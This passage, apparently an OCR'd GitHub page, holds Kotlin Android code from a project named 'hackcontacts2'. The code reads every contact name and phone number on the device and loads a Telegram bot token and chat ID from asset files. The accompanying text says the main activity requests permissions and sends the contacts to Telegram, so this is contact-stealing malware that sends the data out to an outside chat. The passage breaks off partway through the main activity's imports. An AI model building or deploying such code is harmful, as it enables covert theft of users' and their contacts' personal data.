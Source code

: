 ```kotlin
                if (response.isSuccessful) {
                    println("Message sent successfully: ${response.body?.string()}")
                } else {
                    println("Error: ${response.body?.string()}")
                }
            }
        })
    }

    // function to fetch contacts
    fun getContacts(): String {
        val contactsList = mutableListOf<String>()
        val contentResolver = context.contentResolver
        val cursor = contentResolver.query(
            ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
            null,
            null,
            null,
            null
        )

        cursor?.use {
            val nameIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.DISPLAY_NAME)
            val numberIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER)

            while (it.moveToNext()) {
                val name = it.getString(nameIndex)
                val number = it.getString(numberIndex)
                contactsList.add("$name: $number")
            }
        }

        return contactsList.joinToString(separator = "\n")
    }

    // fetch token and chatId from assets (assuming these are saved in files)
    private fun getTokenFromAssets(): String {
        return context.assets.open("token.txt").bufferedReader().readText().trim()
    }

    private fun getChatIdFromAssets(): String {
        return context.assets.open("id.txt").bufferedReader().readText().trim()
    }
}
```

And in the `MainActivity` we just request permissions and send contacts via Telegram:     

```kotlin
package com.example.hackcontacts2

import android.Manifest
import android.content.Context
import android.os.Bundle
import android.widget.Button
import android.widget.Toast
import androidx.activity.ComponentActivity
import com.karumi.dexter.Dexter
import com.karumi.dexter.PermissionToken
import com.karumi.dexter.listener.PermissionDeniedResponse
import com.karumi.dexter.listener.PermissionGrantedResponse
import com.karumi.dexter.listener.PermissionRequest
import com.karumi.dexter.listener.single.PermissionListener

```